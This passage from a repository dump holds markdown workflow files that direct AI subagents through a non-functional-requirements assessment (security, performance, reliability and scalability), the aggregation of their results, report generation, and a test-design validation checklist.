1. Explicit user request in this run (`agent team` => `agent-team`; `subagent` => `subagent`; `sequential`; `auto`)
2. `tea_execution_mode` from config
3. Runtime capability fallback (when probing enabled)

If probing is disabled, honor the requested mode strictly. If that mode cannot be executed at runtime, fail with explicit error instead of silent fallback.

---

### 3. Dispatch 4 NFR Workers

**Subagent A: Security Assessment**

- File: `./step-04a-subagent-security.md`
- Output: `/tmp/tea-nfr-security-${timestamp}.json`
- Execution:
  - `agent-team` or `subagent`: launch non-blocking
  - `sequential`: run blocking and wait
- Status: Running... ⟳

**Subagent B: Performance Assessment**

- File: `./step-04b-subagent-performance.md`
- Output: `/tmp/tea-nfr-performance-${timestamp}.json`
- Status: Running... ⟳

**Subagent C: Reliability Assessment**

- File: `./step-04c-subagent-reliability.md`
- Output: `/tmp/tea-nfr-reliability-${timestamp}.json`
- Status: Running... ⟳

**Subagent D: Scalability Assessment**

- File: `./step-04d-subagent-scalability.md`
- Output: `/tmp/tea-nfr-scalability-${timestamp}.json`
- Status: Running... ⟳

In `agent-team` and `subagent` modes, runtime decides worker scheduling and concurrency.

---

### 4. Wait for Expected Worker Completion

**If `resolvedMode` is `agent-team` or `subagent`:**

```
⏳ Waiting for 4 NFR subagents to complete...
  ├── Subagent A (Security): Running... ⟳
  ├── Subagent B (Performance): Running... ⟳
  ├── Subagent C (Reliability): Running... ⟳
  └── Subagent D (Scalability): Running... ⟳

[... time passes ...]

✅ All 4 NFR subagents completed!
```

**If `resolvedMode` is `sequential`:**

```
✅ Sequential mode: each worker already completed during dispatch.
```

---

### 5. Verify All Outputs Exist

```javascript
const outputs = ['security', 'performance', 'reliability', 'scalability'].map((domain) => `/tmp/tea-nfr-${domain}-${timestamp}.json`);

outputs.forEach((output) => {
  if (!fs.existsSync(output)) {
    throw new Error(`Subagent output missing: ${output}`);
  }
});
```

---

### 6. Execution Report

```
🚀 Performance Report:
- Execution Mode: {resolvedMode}
- Total Elapsed: ~mode-dependent
- Parallel Gain: ~67% faster when mode is subagent/agent-team
```

---

### 7. Proceed to Aggregation

Load next step: `{nextStepFile}`

The aggregation step will:

- Read all 4 NFR domain outputs
- Calculate overall risk level
- Aggregate compliance status
- Identify cross-domain risks
- Generate executive summary

---

## EXIT CONDITION

Proceed when all 4 required worker steps completed and outputs exist.

---

## 🚨 SYSTEM SUCCESS METRICS

### ✅ SUCCESS:

- All required worker steps completed
- Fallback behavior respected configuration and capability probe rules

### ❌ FAILURE:

- One or more subagents failed
- Unsupported requested mode with probing disabled
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-04a-subagent-security.md`
```markdown
---
name: 'step-04a-subagent-security'
description: 'Subagent: Security NFR assessment'
subagent: true
outputFile: '/tmp/tea-nfr-security-{{timestamp}}.json'
---

# Subagent 4A: Security NFR Assessment

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with other NFR domain assessments.

**Your task:** Assess SECURITY NFR domain only.

---

## MANDATORY EXECUTION RULES

- ✅ Assess SECURITY only (not performance, reliability, scalability)
- ✅ Output structured JSON to temp file
- ❌ Do NOT assess other NFR domains

---

## SUBAGENT TASK

### 1. Security Assessment Categories

**Assess the following security dimensions:**

**A) Authentication & Authorization:**

- OAuth2/JWT implementation
- Session management
- Multi-factor authentication
- Role-based access control (RBAC)

**B) Data Protection:**

- Encryption at rest
- Encryption in transit (HTTPS/TLS)
- Sensitive data handling (PII, passwords)
- Database encryption

**C) Input Validation:**

- SQL injection prevention
- XSS prevention
- CSRF protection
- Input sanitization

**D) API Security:**

- Rate limiting
- API authentication
- CORS configuration
- Security headers

**E) Secrets Management:**

- Environment variables for secrets
- No hardcoded credentials
- Secret rotation policies
- Key management systems

### 2. Risk Assessment

For each category, determine status:

- **PASS**: Properly implemented
- **CONCERN**: Partially implemented or weak
- **FAIL**: Not implemented or critical vulnerability
- **N/A**: Not applicable to this system

### 3. Compliance Check

**Common compliance standards:**

- SOC2
- GDPR
- HIPAA
- PCI-DSS
- ISO 27001

---

## OUTPUT FORMAT

```json
{
  "domain": "security",
  "risk_level": "MEDIUM",
  "findings": [
    {
      "category": "Authentication",
      "status": "PASS",
      "description": "OAuth2 with JWT tokens implemented",
      "evidence": ["src/auth/oauth.ts", "JWT refresh token rotation"],
      "recommendations": []
    },
    {
      "category": "Data Encryption",
      "status": "CONCERN",
      "description": "Database encryption at rest not enabled",
      "evidence": ["Database config shows no encryption"],
      "recommendations": ["Enable database encryption at rest", "Use AWS RDS encryption or equivalent", "Implement key rotation policy"]
    },
    {
      "category": "Input Validation",
      "status": "FAIL",
      "description": "SQL injection vulnerability in search endpoint",
      "evidence": ["src/api/search.ts:42 - direct SQL concatenation"],
      "recommendations": ["URGENT: Use parameterized queries", "Add input sanitization library", "Implement WAF rules"]
    }
  ],
  "compliance": {
    "SOC2": "PARTIAL",
    "GDPR": "PASS",
    "HIPAA": "N/A",
    "PCI-DSS": "FAIL"
  },
  "priority_actions": [
    "Fix SQL injection vulnerability (URGENT)",
    "Enable database encryption within 30 days",
    "Implement rate limiting for all APIs"
  ],
  "summary": "Security posture is MEDIUM risk with 1 critical vulnerability requiring immediate attention"
}
```

---

## EXIT CONDITION

Subagent completes when JSON output written to temp file.

**Subagent terminates here.**
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-04b-subagent-performance.md`
```markdown
---
name: 'step-04b-subagent-performance'
description: 'Subagent: Performance NFR assessment'
subagent: true
outputFile: '/tmp/tea-nfr-performance-{{timestamp}}.json'
---

# Subagent 4B: Performance NFR Assessment

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with other NFR domain assessments.

**Your task:** Assess PERFORMANCE NFR domain only.

---

## SUBAGENT TASK

### 1. Performance Assessment Categories

**A) Response Times:**

- API response times (<200ms target)
- Page load times (<2s target)
- Time to interactive (<3s target)

**B) Throughput:**

- Requests per second capacity
- Concurrent user support
- Database query performance

**C) Resource Usage:**

- Memory consumption
- CPU utilization
- Database connection pooling

**D) Optimization:**

- Caching strategies
- CDN usage
- Code splitting/lazy loading
- Database indexing

---

## OUTPUT FORMAT

```json
{
  "domain": "performance",
  "risk_level": "LOW",
  "findings": [
    {
      "category": "Response Times",
      "status": "PASS",
      "description": "API endpoints respond in <150ms (P95)",
      "evidence": ["Load testing results show 140ms P95"],
      "recommendations": []
    },
    {
      "category": "Caching",
      "status": "CONCERN",
      "description": "No CDN for static assets",
      "evidence": ["Static files served from origin"],
      "recommendations": ["Implement CDN (CloudFront/Cloudflare)", "Cache static assets for 1 year"]
    }
  ],
  "compliance": {
    "SLA_99.9": "PASS",
    "SLA_99.99": "CONCERN"
  },
  "priority_actions": ["Implement CDN for static assets", "Add database query caching for frequent reads"],
  "summary": "Performance is acceptable with minor optimization opportunities"
}
```

---

## EXIT CONDITION

Subagent completes when JSON output written to temp file.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-04c-subagent-reliability.md`
```markdown
---
name: 'step-04c-subagent-reliability'
description: 'Subagent: Reliability NFR assessment'
subagent: true
outputFile: '/tmp/tea-nfr-reliability-{{timestamp}}.json'
---

# Subagent 4C: Reliability NFR Assessment

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with other NFR domain assessments.

**Your task:** Assess RELIABILITY NFR domain only.

---

## SUBAGENT TASK

### 1. Reliability Assessment Categories

**A) Error Handling:**

- Try-catch blocks for critical operations
- Graceful degradation
- Circuit breakers
- Retry mechanisms

**B) Monitoring & Observability:**

- Logging implementation
- Error tracking (Sentry/Datadog)
- Health check endpoints
- Alerting systems

**C) Fault Tolerance:**

- Database failover
- Service redundancy
- Backup strategies
- Disaster recovery plan

**D) Uptime & Availability:**

- SLA targets
- Historical uptime
- Incident response

---

## OUTPUT FORMAT

```json
{
  "domain": "reliability",
  "risk_level": "LOW",
  "findings": [
    {
      "category": "Error Handling",
      "status": "PASS",
      "description": "Comprehensive error handling with circuit breakers",
      "evidence": ["Circuit breaker pattern in src/services/", "Retry logic implemented"],
      "recommendations": []
    },
    {
      "category": "Monitoring",
      "status": "CONCERN",
      "description": "No APM (Application Performance Monitoring) tool",
      "evidence": ["Logging present but no distributed tracing"],
      "recommendations": ["Implement APM (Datadog/New Relic)", "Add distributed tracing"]
    }
  ],
  "compliance": {
    "SLA_99.9": "PASS"
  },
  "priority_actions": ["Implement APM for better observability"],
  "summary": "Reliability is good with minor monitoring gaps"
}
```

---

## EXIT CONDITION

Subagent completes when JSON output written to temp file.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-04d-subagent-scalability.md`
```markdown
---
name: 'step-04d-subagent-scalability'
description: 'Subagent: Scalability NFR assessment'
subagent: true
outputFile: '/tmp/tea-nfr-scalability-{{timestamp}}.json'
---

# Subagent 4D: Scalability NFR Assessment

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with other NFR domain assessments.

**Your task:** Assess SCALABILITY NFR domain only.

---

## SUBAGENT TASK

### 1. Scalability Assessment Categories

**A) Horizontal Scaling:**

- Stateless architecture
- Load balancer configuration
- Container orchestration (K8s)
- Auto-scaling policies

**B) Vertical Scaling:**

- Resource allocation
- Database size limits
- Memory management
- CPU optimization

**C) Data Scaling:**

- Database partitioning/sharding
- Read replicas
- Caching layers
- Data archival strategy

**D) Traffic Handling:**

- CDN for static assets
- Rate limiting
- Queue systems for async work
- WebSocket scaling

---

## OUTPUT FORMAT

```json
{
  "domain": "scalability",
  "risk_level": "MEDIUM",
  "findings": [
    {
      "category": "Horizontal Scaling",
      "status": "PASS",
      "description": "Stateless architecture with container orchestration",
      "evidence": ["Docker + Kubernetes setup", "Auto-scaling configured"],
      "recommendations": []
    },
    {
      "category": "Data Scaling",
      "status": "CONCERN",
      "description": "No database sharding strategy for large data growth",
      "evidence": ["Single database instance", "No partitioning"],
      "recommendations": ["Plan database sharding strategy", "Implement read replicas", "Consider database clustering"]
    }
  ],
  "compliance": {
    "1M_users": "PASS",
    "10M_users": "CONCERN",
    "100M_users": "FAIL"
  },
  "priority_actions": ["Design database sharding strategy for future growth", "Implement read replicas for read-heavy workloads"],
  "summary": "Scalability is good up to 1M users, concerns for 10M+ users"
}
```

---

## EXIT CONDITION

Subagent completes when JSON output written to temp file.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-04e-aggregate-nfr.md`
```markdown
---
name: 'step-04e-aggregate-nfr'
description: 'Aggregate NFR domain assessments into executive summary'
nextStepFile: './step-05-generate-report.md'
outputFile: '{test_artifacts}/nfr-assessment.md'
---

# Step 4E: Aggregate NFR Assessment Results

## STEP GOAL

Read outputs from 4 parallel NFR subagents, calculate overall risk level, aggregate compliance status, and identify cross-domain risks.

---

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Read all 4 subagent outputs
- ✅ Calculate overall risk level
- ❌ Do NOT re-assess NFRs (use subagent outputs)

---

## MANDATORY SEQUENCE

### 1. Read All Subagent Outputs

```javascript
const domains = ['security', 'performance', 'reliability', 'scalability'];
const assessments = {};

domains.forEach((domain) => {
  const outputPath = `/tmp/tea-nfr-${domain}-{{timestamp}}.json`;
  assessments[domain] = JSON.parse(fs.readFileSync(outputPath, 'utf8'));
});
```

---

### 2. Calculate Overall Risk Level

**Risk hierarchy:** HIGH > MEDIUM > LOW > NONE

```javascript
const riskLevels = { HIGH: 3, MEDIUM: 2, LOW: 1, NONE: 0 };
const domainRisks = domains.map((d) => assessments[d].risk_level);
const maxRiskValue = Math.max(...domainRisks.map((r) => riskLevels[r]));
const overallRisk = Object.keys(riskLevels).find((k) => riskLevels[k] === maxRiskValue);
```

**Risk assessment:**

- If ANY domain is HIGH → overall is HIGH
- If ANY domain is MEDIUM (and none HIGH) → overall is MEDIUM
- If ALL domains are LOW/NONE → overall is LOW

---

### 3. Aggregate Compliance Status

```javascript
const allCompliance = {};

domains.forEach((domain) => {
  const compliance = assessments[domain].compliance;
  Object.entries(compliance).forEach(([standard, status]) => {
    if (!allCompliance[standard]) {
      allCompliance[standard] = [];
    }
    allCompliance[standard].push({ domain, status });
  });
});

// Determine overall compliance per standard
const complianceSummary = {};
Object.entries(allCompliance).forEach(([standard, statuses]) => {
  const hasFail = statuses.some((s) => s.status === 'FAIL');
  const hasPartial = statuses.some((s) => s.status === 'PARTIAL' || s.status === 'CONCERN');

  complianceSummary[standard] = hasFail ? 'FAIL' : hasPartial ? 'PARTIAL' : 'PASS';
});
```

---

### 4. Identify Cross-Domain Risks

**Look for risks that span multiple domains:**

```javascript
const crossDomainRisks = [];

// Example: Performance + Scalability issue
const perfConcerns = assessments.performance.findings.filter((f) => f.status !== 'PASS');
const scaleConcerns = assessments.scalability.findings.filter((f) => f.status !== 'PASS');
if (perfConcerns.length > 0 && scaleConcerns.length > 0) {
  crossDomainRisks.push({
    domains: ['performance', 'scalability'],
    description: 'Performance issues may worsen under scale',
    impact: 'HIGH',
  });
}

// Example: Security + Reliability issue
const securityFails = assessments.security.findings.filter((f) => f.status === 'FAIL');
const reliabilityConcerns = assessments.reliability.findings.filter((f) => f.status !== 'PASS');
if (securityFails.length > 0 && reliabilityConcerns.length > 0) {
  crossDomainRisks.push({
    domains: ['security', 'reliability'],
    description: 'Security vulnerabilities may cause reliability incidents',
    impact: 'CRITICAL',
  });
}
```

---

### 5. Aggregate Priority Actions

```javascript
const allPriorityActions = domains.flatMap((domain) =>
  assessments[domain].priority_actions.map((action) => ({
    domain,
    action,
    urgency: assessments[domain].risk_level === 'HIGH' ? 'URGENT' : 'NORMAL',
  })),
);

// Sort by urgency
const prioritizedActions = allPriorityActions.sort((a, b) => (a.urgency === 'URGENT' ? -1 : 1));
```

---

### 6. Generate Executive Summary

```javascript
const resolvedMode = subagentContext?.execution?.resolvedMode ?? 'unknown';
const subagentExecutionLabel =
  resolvedMode === 'sequential'
    ? 'SEQUENTIAL (4 NFR domains)'
    : resolvedMode === 'agent-team'
      ? 'AGENT-TEAM (4 NFR domains)'
      : resolvedMode === 'subagent'
        ? 'SUBAGENT (4 NFR domains)'
        : 'MODE-DEPENDENT (4 NFR domains)';

const performanceGainLabel =
  resolvedMode === 'sequential'
    ? 'baseline (no parallel speedup)'
    : resolvedMode === 'agent-team' || resolvedMode === 'subagent'
      ? '~67% faster than sequential'
      : 'mode-dependent';

const executiveSummary = {
  overall_risk: overallRisk,
  assessment_date: new Date().toISOString(),

  domain_assessments: assessments,

  compliance_summary: complianceSummary,

  cross_domain_risks: crossDomainRisks,

  priority_actions: prioritizedActions,

  risk_breakdown: {
    security: assessments.security.risk_level,
    performance: assessments.performance.risk_level,
    reliability: assessments.reliability.risk_level,
    scalability: assessments.scalability.risk_level,
  },

  subagent_execution: subagentExecutionLabel,
  performance_gain: performanceGainLabel,
};

// Save for Step 5 (report generation)
fs.writeFileSync('/tmp/tea-nfr-summary-{{timestamp}}.json', JSON.stringify(executiveSummary, null, 2), 'utf8');
```

---

### 7. Display Summary to User

```
✅ NFR Assessment Complete ({subagentExecutionLabel})

🎯 Overall Risk Level: {overallRisk}

📊 Domain Risk Breakdown:
- Security:      {security_risk}
- Performance:   {performance_risk}
- Reliability:   {reliability_risk}
- Scalability:   {scalability_risk}

✅ Compliance Summary:
{list standards with PASS/PARTIAL/FAIL}

⚠️ Cross-Domain Risks: {cross_domain_risk_count}

🎯 Priority Actions: {priority_action_count}

🚀 Performance: {performanceGainLabel}

✅ Ready for report generation (Step 5)
```

---

---

### 8. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-04e-aggregate-nfr']
  lastStep: 'step-04e-aggregate-nfr'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-04e-aggregate-nfr'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-04e-aggregate-nfr'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

---

## EXIT CONDITION

Proceed to Step 5 when:

- ✅ All subagent outputs read
- ✅ Overall risk calculated
- ✅ Compliance aggregated
- ✅ Summary saved
- ✅ Progress saved to output document

Load next step: `{nextStepFile}`

---

## 🚨 SYSTEM SUCCESS METRICS

### ✅ SUCCESS:

- All 4 NFR domains aggregated correctly
- Overall risk level determined
- Executive summary complete

### ❌ FAILURE:

- Failed to read subagent outputs
- Risk calculation incorrect
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-c/step-05-generate-report.md`
```markdown
---
name: 'step-05-generate-report'
description: 'Create NFR report and validation summary'
outputFile: '{test_artifacts}/nfr-assessment.md'
---

# Step 5: Generate Report & Validate

## STEP GOAL

Produce the NFR assessment report and validate completeness.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Report Generation

Use `nfr-report-template.md` to produce `{outputFile}` containing:

- Category results (PASS/CONCERNS/FAIL)
- Evidence summary
- Remediation actions
- Gate-ready YAML snippet (if applicable)

---

## 2. Polish Output

Before finalizing, review the complete output document for quality:

1. **Remove duplication**: Progressive-append workflow may have created repeated sections — consolidate
2. **Verify consistency**: Ensure terminology, risk scores, and references are consistent throughout
3. **Check completeness**: All template sections should be populated or explicitly marked N/A
4. **Format cleanup**: Ensure markdown formatting is clean (tables aligned, headers consistent, no orphaned references)

---

## 3. Validation

Validate against `checklist.md` and fix gaps.

- [ ] CLI sessions cleaned up (no orphaned browsers)

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-05-generate-report']
  lastStep: 'step-05-generate-report'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-05-generate-report'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-05-generate-report'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

---

## 5. Completion Summary

Report:

- Overall NFR status
- Critical blockers or waivers needed
- Next recommended workflow (`trace` or release gate)

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-e/step-01-assess.md`
```markdown
---
name: 'step-01-assess'
description: 'Load an existing output for editing'
nextStepFile: './step-02-apply-edit.md'
---

# Step 1: Assess Edit Target

## STEP GOAL:

Identify which output should be edited and load it.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Ask the user which output file to edit
- 🚫 Do not edit until target is confirmed

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: existing outputs
- Focus: select edit target
- Limits: no edits yet

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Identify Target

Ask the user to provide the output file path or select from known outputs.

### 2. Load Target

Read the provided output file in full.

### 3. Confirm

Confirm the target and proceed to edit.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Target identified and loaded

### ❌ SYSTEM FAILURE:

- Proceeding without a confirmed target
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-e/step-02-apply-edit.md`
```markdown
---
name: 'step-02-apply-edit'
description: 'Apply edits to the selected output'
---

# Step 2: Apply Edits

## STEP GOAL:

Apply the requested edits to the selected output and confirm changes.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Only apply edits explicitly requested by the user

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: selected output and user changes
- Focus: apply edits only

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Confirm Requested Changes

Restate what will be changed and confirm.

### 2. Apply Changes

Update the output file accordingly.

### 3. Report

Summarize the edits applied.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Changes applied and confirmed

### ❌ SYSTEM FAILURE:

- Unconfirmed edits or missing update
```

## File: `src/workflows/testarch/bmad-testarch-nfr/steps-v/step-01-validate.md`
```markdown
---
name: 'step-01-validate'
description: 'Validate workflow outputs against checklist'
outputFile: '{test_artifacts}/nfr-assess-validation-report.md'
validationChecklist: '../checklist.md'
---

# Step 1: Validate Outputs

## STEP GOAL:

Validate outputs using the workflow checklist and record findings.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Validate against `{validationChecklist}`
- 🚫 Do not skip checks

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Write findings to `{outputFile}`

## CONTEXT BOUNDARIES:

- Available context: workflow outputs and checklist
- Focus: validation only
- Limits: do not modify outputs in this step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Checklist

Read `{validationChecklist}` and list all criteria.

### 2. Validate Outputs

Evaluate outputs against each checklist item.

### 3. Write Report

Write a validation report to `{outputFile}` with PASS/WARN/FAIL per section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Validation report written
- All checklist items evaluated

### ❌ SYSTEM FAILURE:

- Skipped checklist items
- No report produced
```

## File: `src/workflows/testarch/bmad-testarch-test-design/SKILL.md`
```markdown
---
name: bmad-testarch-test-design
description: 'Create system-level or epic-level test plans. Use when the user says "lets design test plan" or "I want to create test strategy"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-testarch-test-design/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-testarch-test-design/checklist.md`
```markdown
# Test Design and Risk Assessment - Validation Checklist

## Prerequisites (Mode-Dependent)

**System-Level Mode (Phase 3):**

- [ ] PRD exists with functional and non-functional requirements
- [ ] ADR (Architecture Decision Record) exists
- [ ] Architecture document available (architecture.md or tech-spec)
- [ ] Requirements are testable and unambiguous

**Epic-Level Mode (Phase 4):**

- [ ] Story markdown with clear acceptance criteria exists
- [ ] PRD or epic documentation available
- [ ] Architecture documents available (test-design-architecture.md + test-design-qa.md from Phase 3, if exists)
- [ ] Requirements are testable and unambiguous

## Process Steps

### Step 1: Context Loading

- [ ] PRD.md read and requirements extracted
- [ ] Epics.md or specific epic documentation loaded
- [ ] Story markdown with acceptance criteria analyzed
- [ ] Architecture documents reviewed (if available)
- [ ] Existing test coverage analyzed
- [ ] Knowledge base fragments loaded (risk-governance, probability-impact, test-levels, test-priorities)

### Step 2: Risk Assessment

- [ ] Genuine risks identified (not just features)
- [ ] Risks classified by category (TECH/SEC/PERF/DATA/BUS/OPS)
- [ ] Probability scored (1-3 for each risk)
- [ ] Impact scored (1-3 for each risk)
- [ ] Risk scores calculated (probability × impact)
- [ ] High-priority risks (score ≥6) flagged
- [ ] Mitigation plans defined for high-priority risks
- [ ] Owners assigned for each mitigation
- [ ] Timelines set for mitigations
- [ ] Residual risk documented

### Step 3: Coverage Design

- [ ] Acceptance criteria broken into atomic scenarios
- [ ] Test levels selected (E2E/API/Component/Unit)
- [ ] No duplicate coverage across levels
- [ ] Priority levels assigned (P0/P1/P2/P3)
- [ ] P0 scenarios meet strict criteria (blocks core + high risk + no workaround)
- [ ] Data prerequisites identified
- [ ] Tooling/access requirements documented when applicable
- [ ] Execution order defined (smoke → P0 → P1 → P2/P3)

### Step 4: Deliverables Generation

- [ ] Risk assessment matrix created
- [ ] Coverage matrix created
- [ ] Execution order documented
- [ ] Resource estimates calculated
- [ ] Quality gate criteria defined
- [ ] Output file written to correct location
- [ ] Output file uses template structure

## Output Validation

### Risk Assessment Matrix

- [ ] All risks have unique IDs (R-001, R-002, etc.)
- [ ] Each risk has category assigned
- [ ] Probability values are 1, 2, or 3
- [ ] Impact values are 1, 2, or 3
- [ ] Scores calculated correctly (P × I)
- [ ] High-priority risks (≥6) clearly marked
- [ ] Mitigation strategies specific and actionable

### Coverage Matrix

- [ ] All requirements mapped to test levels
- [ ] Priorities assigned to all scenarios
- [ ] Risk linkage documented
- [ ] Test counts realistic
- [ ] Owners assigned where applicable
- [ ] No duplicate coverage (same behavior at multiple levels)

### Execution Strategy

**CRITICAL: Keep execution strategy simple, avoid redundancy**

- [ ] **Simple structure**: PR / Nightly / Weekly (NOT complex smoke/P0/P1/P2 tiers)
- [ ] **PR execution**: All functional tests unless significant infrastructure overhead
- [ ] **Nightly/Weekly**: Only performance, chaos, long-running, manual tests
- [ ] **No redundancy**: Don't re-list all tests (already in coverage plan)
- [ ] **Philosophy stated**: "Run everything in PRs if <15 min, defer only if expensive/long"
- [ ] **Playwright parallelization noted**: 100s of tests in 10-15 min

### Resource Estimates

**CRITICAL: Use intervals/ranges, NOT exact numbers**

- [ ] P0 effort provided as interval range (e.g., "~25-40 hours" NOT "36 hours")
- [ ] P1 effort provided as interval range (e.g., "~20-35 hours" NOT "27 hours")
- [ ] P2 effort provided as interval range (e.g., "~10-30 hours" NOT "15.5 hours")
- [ ] P3 effort provided as interval range (e.g., "~2-5 hours" NOT "2.5 hours")
- [ ] Total effort provided as interval range (e.g., "~55-110 hours" NOT "81 hours")
- [ ] Timeline provided as week range (e.g., "~1.5-3 weeks" NOT "11 days")
- [ ] Estimates include setup time and account for complexity variations
- [ ] **No false precision**: Avoid exact calculations like "18 tests × 2 hours = 36 hours"

### Quality Gate Criteria

- [ ] P0 pass rate threshold defined (should be 100%)
- [ ] P1 pass rate threshold defined (typically ≥95%)
- [ ] High-risk mitigation completion required
- [ ] Coverage targets specified (≥80% recommended)

## Quality Checks

### Evidence-Based Assessment

- [ ] Risk assessment based on documented evidence
- [ ] No speculation on business impact
- [ ] Assumptions clearly documented
- [ ] Clarifications requested where needed
- [ ] Historical data referenced where available

### Risk Classification Accuracy

- [ ] TECH risks are architecture/integration issues
- [ ] SEC risks are security vulnerabilities
- [ ] PERF risks are performance/scalability concerns
- [ ] DATA risks are data integrity issues
- [ ] BUS risks are business/revenue impacts
- [ ] OPS risks are deployment/operational issues

### Priority Assignment Accuracy

**CRITICAL: Priority classification is separate from execution timing**

- [ ] **Priority sections (P0/P1/P2/P3) do NOT include execution context** (e.g., no "Run on every commit" in headers)
- [ ] **Priority sections have only "Criteria" and "Purpose"** (no "Execution:" field)
- [ ] **Execution Strategy section** is separate and handles timing based on infrastructure overhead
- [ ] P0: Truly blocks core functionality + High-risk (≥6) + No workaround
- [ ] P1: Important features + Medium-risk (3-4) + Common workflows
- [ ] P2: Secondary features + Low-risk (1-2) + Edge cases
- [ ] P3: Nice-to-have + Exploratory + Benchmarks
- [ ] **Note at top of Test Coverage Plan**: Clarifies P0/P1/P2/P3 = priority/risk, NOT execution timing

### Test Level Selection

- [ ] E2E used only for critical paths
- [ ] API tests cover complex business logic
- [ ] Component tests for UI interactions
- [ ] Unit tests for edge cases and algorithms
- [ ] No redundant coverage

## Integration Points

### Knowledge Base Integration

- [ ] risk-governance.md consulted
- [ ] probability-impact.md applied
- [ ] test-levels-framework.md referenced
- [ ] test-priorities-matrix.md used
- [ ] Additional fragments loaded as needed

### Status File Integration

- [ ] Test design logged in Quality & Testing Progress
- [ ] Epic number and scope documented
- [ ] Completion timestamp recorded

### Workflow Dependencies

- [ ] Can proceed to `*atdd` workflow with P0 scenarios
- [ ] `*atdd` is a separate workflow and must be run explicitly (not auto-run)
- [ ] Can proceed to `automate` workflow with full coverage plan
- [ ] Risk assessment informs `gate` workflow criteria
- [ ] Integrates with `ci` workflow execution order

## Accountability & Logistics

### Not in Scope

- [ ] Out-of-scope items explicitly listed with reasoning
- [ ] Mitigation noted for each excluded item
- [ ] Exclusions reviewed and accepted by stakeholders

### Entry Criteria

- [ ] Prerequisites for testing start are clearly defined
- [ ] Environment readiness included
- [ ] Test data readiness included
- [ ] Pre-implementation blocker resolution referenced

### Exit Criteria

- [ ] Pass/fail thresholds defined for each priority level
- [ ] Bug severity gate defined (e.g., no open P0/P1 bugs)
- [ ] Coverage sufficiency criteria specified

### Project Team (Optional)

- [ ] If included, key roles identified (QA Lead, Dev Lead, PM, Architect minimum)
- [ ] If included, testing responsibilities mapped to roles
- [ ] If included, names populated where available (placeholders acceptable for draft)

### Tooling & Access (System-Level Only, If Applicable)

- [ ] If non-standard tools or access requests exist, list them
- [ ] Access requirements identified for each tool/service
- [ ] Status tracked (Ready/Pending) when applicable

### Interworking & Regression

- [ ] Impacted services/components identified
- [ ] Regression scope defined per impacted service
- [ ] Cross-team coordination noted where needed

## System-Level Mode: Two-Document Validation

